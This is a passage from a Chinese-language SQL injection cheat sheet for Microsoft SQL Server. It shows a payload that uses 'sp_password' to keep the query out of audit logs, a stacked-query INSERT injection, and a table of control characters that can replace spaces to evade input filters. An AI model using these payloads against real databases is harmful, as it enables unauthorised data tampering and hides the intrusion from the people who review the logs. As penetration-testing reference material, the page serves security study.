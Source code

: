 	' AND 1=1--sp_password

__输出__

- 在此事件的文本中找到'sp_password'。
- 出于安全原因，文字已被此注释取代。

#### 堆查询

`MSSQL`支持堆查询

	' AND 1=0 INSERT INTO ([column1], [column2]) VALUES ('value1', 'value2');


#### 模糊和混淆

##### 允许其他字符

以下的字符可以被用作空格

	01	Start of Heading
	02	Start of Text
	03	End of Text
	04	End of Transmission
	05	Enquiry
	06	Acknowledge
	07	Bell
	08	Backspace
	09	Horizontal Tab
	0A	New Line
	0B	Vertical Tab
	0C	New Page
	0D	Carriage Return
	0E	Shift Out
	0F	Shift In
	10	Data Link Escape
	11	Device Control 1
	12	Device Control 2
	13	Device Control 3
	14	Device Control 4
	15	Negative Acknowledge
	16	Synchronous Idle
	17	End of Transmission Block
	18	Cancel
	19	End of Medium
	1A	Substitute
	1B	Escape
	1C	File Separator
	1D	Group Separator
	1E	Record Separator
	1F	Unit Separator
	20	Space
	25	%

__例子__
